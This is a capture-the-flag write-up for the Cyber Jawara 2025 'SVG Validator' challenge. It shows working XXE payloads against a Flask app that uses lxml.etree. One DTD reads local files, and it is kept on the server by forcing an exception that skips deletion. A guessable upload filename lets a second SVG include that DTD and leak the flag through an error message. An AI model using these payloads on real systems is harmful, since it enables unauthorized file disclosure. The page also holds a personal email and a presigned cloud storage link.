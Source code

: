 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4664KXTUSJ4%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T120109Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDQaCXVzLXdlc3QtMiJHMEUCIFT6CwYrckKVN1fAK2SOvh9cHo%2B7H0DWIOJBsxKbNCSfAiEAqO1ZAbHfxv0lK491gZB3m4wdXRjHFI4Mo4QLg3lSKMUqiAQI7f%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDEu%2BVbe9sj1LNNFKuircA6B%2B6LC7Jp99FyoXdCIVVFAQjyHlsi%2ByxTHIhVQtIP5lw7TwLc2dc3JX8UpkqlyMGbGsaxyPDeEr2STR9qsAB5o%2BjHxl52szZQEZxaGx6ucNtULtF%2BKvheFIHn4Oz5%2FoJOs9sdY7ElVS2KxGCmW7XuDMhk6cdvZnYwL%2FXxJe7EqdiSu5ixMrPRBULzE1rAz1H4FJqMMzi6Aq0muXY%2Fdp%2B998YEvFwImuVcY7uIgfa0%2B1qixXypEw97kyvpODVHCQpoG74NIGwW7Fvmm5H%2Fg9pn6IuWSWVn7MAIturOOuddsLdCbiNYoRzzjXfE%2BYhzunb2nrYqsi%2BFh0P6fF52v9TkZcw7Pbf6EWQnFjqK%2FQhMKONJe5doS7ruJLXgW5BMRdp1UK1EOs8Osrn2t%2BW0uLLJL2RZt9%2B5gP%2BMFLoDT%2FMm2Vb1Sus2A8siLYfaUOn%2B%2FJVaaaOeI4hAk99CP01HaX4oM0WNS93TOaJ046vtHYl9gpPvkYMcIdZXzNYoIRlYs%2FyeR7AELVQ8KXZP0lQVs%2BKX3aCnjGvjYOjYdnEW%2FsXtn5CuV640sFQUh%2BY%2BmbIBkQciPTlDb7kvWlrD7XH8ma11Db1vCiEakFkp2AXY%2FN0GBJ7LQuqTi785HvbqFPMJC%2FwcEGOqUBvQ76LrncckIXRJK%2B13Yc4O65sSrQUXqDJY3wIwAo6X7TgPEaz50QsbIEiYNJUjJ3cDIHVJD7yHNVo3qrJ0NnMUPZF2yJkXY4vMQ7iZocvUkAMhB4kaAIOXmZLhQnjK20eUd7V0W0UA81o7daWyUjkh1aCaAaa9bQBW%2BrfyNDIckJ%2F3F2zuANcIw8mNnsnocJ6uDaw8DwxxNQeWz%2BIyIFB1mJE8wl\&X-Amz-Signature=507bc2fd7f0db22441efc3d961ad2bc13d216fff791406602abad53673fa616b\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
